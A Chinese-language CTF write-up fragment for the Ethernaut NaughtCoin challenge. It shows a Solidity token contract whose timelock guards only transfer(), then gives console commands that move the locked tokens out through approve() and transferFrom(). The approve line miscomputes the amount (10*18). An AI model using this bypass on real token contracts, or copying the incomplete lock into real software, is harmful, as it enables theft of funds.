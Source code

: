 &emsp;&emsp;接下来看一下题目代码：  

```javascript
pragma solidity ^0.4.18;

import 'zeppelin-solidity/contracts/token/ERC20/StandardToken.sol';

 contract NaughtCoin is StandardToken {

  string public constant name = 'NaughtCoin';
  string public constant symbol = '0x0';
  uint public constant decimals = 18;
  uint public timeLock = now + 10 years;
  uint public INITIAL_SUPPLY = 1000000 * (10 ** decimals);
  address public player;

  function NaughtCoin(address _player) public {
    player = _player;
    totalSupply_ = INITIAL_SUPPLY;
    balances[player] = INITIAL_SUPPLY;
    Transfer(0x0, player, INITIAL_SUPPLY);
  }
  
  function transfer(address _to, uint256 _value) lockTokens public returns(bool) {
    super.transfer(_to, _value);
  }

  // Prevent the initial owner from transferring tokens until the timelock has passed
  modifier lockTokens() {
    if (msg.sender == player) {
      require(now > timeLock);
      _;
    } else {
     _;
    }
  } 
} 
```
&emsp;&emsp;这里我们可以看到合约只重写了transfer()函数，这里的balances并不是Ether，而是一种token，因此我们只需要给自己授权，然后吧token转给一个账户就行了。  

> await contract.approve(player,1000000*(10*18))
> await contract.transferFrom(player,instance,1000000*(10**18));  

&emsp;&emsp;这样以来我们就吧token全部转出了。  

---  


